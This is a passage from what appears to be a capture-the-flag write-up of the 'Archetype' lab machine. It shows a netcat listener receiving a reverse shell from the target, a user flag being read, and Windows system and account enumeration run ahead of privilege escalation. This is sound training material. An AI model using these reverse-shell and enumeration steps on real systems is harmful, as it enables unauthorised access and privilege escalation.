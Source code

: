 In that window, we can now run
```
$ sudo rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.27] 49683
whoami
archetype\sql_svc
more \users\sql_svc\desktop\user.txt
3e7b************************21a3
```

Now we have the user flag!  But as far as I can tell, `archetype\sql_svc` is an ordinary user.  We need to escalate privileges.  I follow a good article [here](https://github.com/frizb/Windows-Privilege-Escalation) on privilege escalation in Windows.  Here is some basic data about the user and the system:
```ps
whoami
archetype\sql_svc
net user

User accounts for \\ARCHETYPE

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sql_svc                  WDAGUtilityAccount       
The command completed successfully.

systeminfo

Host Name:                 ARCHETYPE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA442
Original Install Date:     1/19/2020, 11:39:36 PM
System Boot Time:          3/24/2021, 8:19:01 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 983 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,328 MB
Virtual Memory: In Use:    1,103 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB4532947
                           [02]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
```